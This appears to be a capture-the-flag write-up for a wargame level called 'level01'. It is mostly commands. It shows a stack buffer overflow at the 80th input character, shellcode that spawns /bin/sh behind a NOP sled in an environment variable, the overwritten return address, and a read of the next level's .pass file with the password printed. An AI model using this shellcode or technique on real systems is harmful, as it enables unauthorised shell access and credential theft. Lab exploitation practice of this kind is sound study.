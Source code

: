 ### step 1: Decompile with Ghidra

We get the c source code of the program  

### step 2: Code analysis

TODO

Enter Username: dat_will

( python -c 'print("dat_will")' ; python -c 'print("A" * 79)') | ./level01

deuxième input segfault au 80eme char


env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') gdb level01


Our nopesled spans from 0xffffddae to 0xffffdfae, so we target the middle 0xffffdeae.

0xffffdeae => little endian \xae\xde\xff\xff


( python -c 'print("dat_will")' ; python -c 'print("A" * 80 + "\xae\xde\xff\xff")' ; cat ) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level01

cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv